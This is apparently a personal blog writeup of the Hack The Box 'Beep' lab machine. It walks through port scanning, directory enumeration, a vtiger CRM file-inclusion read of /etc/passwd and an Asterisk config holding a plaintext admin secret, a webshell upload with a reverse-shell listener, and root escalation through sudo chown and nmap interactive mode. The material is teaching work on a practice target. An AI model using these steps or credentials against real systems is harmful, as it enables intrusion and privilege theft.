 ```yaml
---
layout: post
title:	"Beep Writeup"
date:	2018-01-07 21:30:00
categories:
    - blog
tags:
    - hackthebox
---
```


Hello,

this is my first writeup for Hack The Box platform, the machine was [Beep](https://www.hackthebox.eu/home/machines/profile/5).

Let's run nmap to see which services are running on the machine:

~~~
root@kali:~# nmap -sT -sV -p 1-65535 10.10.10.7 -A

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-08 12:27 EST
Nmap scan report for beep.localdomain (10.10.10.7)
Host is up (0.087s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
746/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
~~~

There were a lot of services.

On port 443 there was Apache with elastix:

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-08-htb-beep/img1.png)

By using dirsearch I enumerated it's directories:

~~~
root@kali:/usr/share/wordlists/SecLists/Discovery/Web_Content# dirsearch -u https://10.10.10.7/ -w raft-medium-directories.txt -e php,txt

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php, txt | Threads: 10 | Wordlist size: 30005

Error Log: /opt/dirsearch/logs/errors-18-01-08_15-16-00.log

Target: https://10.10.10.7/

[15:16:01] Starting: 
[15:16:02] 301 -  309B  - /admin  ->  https://10.10.10.7/admin/
[15:16:02] 301 -  310B  - /images  ->  https://10.10.10.7/images/
[15:16:02] 301 -  311B  - /modules  ->  https://10.10.10.7/modules/
[15:16:02] 301 -  310B  - /themes  ->  https://10.10.10.7/themes/
[15:16:03] 301 -  308B  - /help  ->  https://10.10.10.7/help/
[15:16:05] 301 -  307B  - /var  ->  https://10.10.10.7/var/
[15:16:05] 301 -  308B  - /mail  ->  https://10.10.10.7/mail/
[15:16:06] 301 -  310B  - /static  ->  https://10.10.10.7/static/
[15:16:07] 301 -  308B  - /lang  ->  https://10.10.10.7/lang/
[15:16:10] 301 -  308B  - /libs  ->  https://10.10.10.7/libs/
[15:16:19] 301 -  309B  - /panel  ->  https://10.10.10.7/panel/
[15:16:58] 301 -  311B  - /configs  ->  https://10.10.10.7/configs/
[15:23:39] 301 -  314B  - /recordings  ->  https://10.10.10.7/recordings/
[15:26:38] 301 -  313B  - /vtigercrm  ->  https://10.10.10.7/vtigercrm/
[15:26:42] 200 -    2KB - /
~~~

I found vtigercrm 5.1.0:

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-08-htb-beep/img2.png)

This version is vulnerable to LFI.
With [goWAPT](https://github.com/dzonerzy/goWAPT) I enumerated all the files:

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-08-htb-beep/img3.png)

In the /etc/passwd file we can see the user Fanis:

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-08-htb-beep/img4.png)

After some research on google about asterisk, I got the etc/asterisk/manager.conf file:

~~~
;
; AMI - Asterisk Manager interface
;
; FreePBX needs this to be enabled. Note that if you enable it on a different IP, you need
; to assure that this can't be reached from un-authorized hosts with the ACL settings (permit/deny).
; Also, remember to configure non-default port or IP-addresses in amportal.conf.
; 
; The AMI connection is used both by the portal and the operator's panel in FreePBX.
;
; FreePBX assumes an AMI connection to localhost:5038 by default.
;
[general]
enabled = yes
port = 5038
bindaddr = 0.0.0.0
displayconnects=no ;only effects 1.6+

[admin]
secret = jEhdIekWmdjE
deny=0.0.0.0/0.0.0.0
permit=127.0.0.1/255.255.255.0
read = system,call,log,verbose,command,agent,user,config,command,dtmf,reporting,cdr,dialplan,originate
write = system,call,log,verbose,command,agent,user,config,command,dtmf,reporting,cdr,dialplan,originate

#include manager_additional.conf
#include manager_custom.conf
~~~

I used the credential admin:jEhdIekWmdjE contained in this file to log in Elastix, Vtigercrm and FreePBX.

After some research on Google, I was able to upload a backdoor by using this [vulnerability](https://www.exploit-db.com/exploits/38345/) in vtiger crm:

![Screenshot]({{ site.baseurl }}/images/posts/2018/2018-01-08-htb-beep/img5.png)

With python I got a reverse shell and the user flag:

~~~
root@kali:~/Desktop/webshell# nc -lvp 80
listening on [any] 80 ...
connect to [10.10.14.6] from beep.localdomain [10.10.10.7] 46497
sh: no job control in this shell
sh-3.2$ ls
logo.txt
sale.jpeg
vtiger-crm-logo.jpg
webshell.php
sh-3.2$ python -c "import pty;pty.spawn('/bin/bash')"
bash-3.2$ cat /home/fanis/user.txt
cat /home/fanis/user.txt
~~~

There were different ways to get the root flag:

~~~
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo /bin/chown -r asterisk /root
sudo /bin/chown -r asterisk /root
/bin/chown: invalid option -- r
Try `/bin/chown --help' for more information.
bash-3.2$ sudo /bin/chown -R asterisk /root
sudo /bin/chown -R asterisk /root
bash-3.2$ cat /root/root.txt
cat /root/root.txt
~~~


~~~
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !id
!id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
waiting to reap child: No child processes (10)
nmap>
~~~

Bye!!!
